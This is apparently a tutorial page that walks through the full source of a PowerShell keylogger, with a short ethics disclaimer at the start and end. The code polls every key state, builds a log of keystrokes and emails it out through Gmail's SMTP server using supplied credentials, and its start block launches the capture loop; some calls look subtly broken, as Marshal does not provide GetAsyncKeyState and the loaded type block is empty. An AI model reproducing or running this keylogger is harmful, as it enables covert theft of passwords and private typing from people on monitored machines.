 Understanding a PowerShell Keylogger Script

In this exploration, we delve into a PowerShell script that simulates a basic keylogger. Before delving into the code, it's essential to emphasize the ethical and legal implications of creating keyloggers. The use of such tools without explicit consent is not only unethical but may also be illegal. It's crucial to ensure compliance with privacy and security standards and obtain proper authorization.

Now, let's dissect the script:

1. Loading Necessary Assemblies:

Add-Type @"
    using System;
    using System.Runtime.InteropServices;
"@

This part introduces the necessary .NET assemblies - System and System.Runtime.InteropServices. These assemblies enable access to .NET types and facilitate the invocation of functions from unmanaged code.

2. KeyLogger Class:

class KeyLogger {
    # Properties
    [string]$log = "Key started"
    [int]$interval
    [string]$username
    [string]$password
    [string]$email

    # Constructor
    KeyLogger([int]$time_interval, [string]$email, [string]$username, [string]$password) {
        # Initialization
        $this.interval = $time_interval
        $this.username = $username
        $this.password = $password
        $this.email = $email
    }

    # Method to start keylogging
    [void]Start() {
        while ($true) {
            $this.Report()
            Start-Sleep -Milliseconds $this.interval
        }
    }

    # Method to append content to the log
    [void]AppendToLog([string]$content) {
        $this.log += $content
    }

    # Method to report key presses
    [void]Report() {
        for ($key = 1; $key -le 255; $key++) {
            $state = [System.Runtime.InteropServices.Marshal]::GetAsyncKeyState($key)
            if ($state -eq -32767) {
                $currentKey = [char]$key
                $this.AppendToLog($currentKey)
            }
        }

        if ($this.log.Length -gt 0) {
            $this.SendEmail("`n`n" + $this.log)
            $this.log = ""
        }
    }

    # Method to send log content via email
    [void]SendEmail([string]$message) {
        $smtpServer = "smtp.gmail.com"
        $smtpPort = 587
        $smtp = New-Object Net.Mail.SmtpClient($smtpServer, $smtpPort)
        $smtp.EnableSsl = $true
        $smtp.Credentials = New-Object Net.NetworkCredential($this.username, $this.password)

        $smtp.Send($this.email, $this.email, $message)
    }
}

This section defines the KeyLogger class. It encapsulates properties for log storage, interval duration, email credentials, and methods for starting the keylogging process, appending to the log, reporting key presses, and sending the log via email.

3. Script Execution:

if ($MyInvocation.ScriptName -eq $null) {
    $kl = New-Object KeyLogger -ArgumentList 120, 'no-reply@Taylor.ChristianNewsome@OWASP.org', '[Hello]', '[Hello]'
    $kl.Start()
}


This part checks if the script is run directly and, if so, creates an instance of the KeyLogger class with specific parameters and starts the keylogging loop.

Remember, the primary intention here is educational, and ethical considerations should always guide the use and development of such scripts. Always prioritize privacy and adhere to legal standards when dealing with sensitive information.
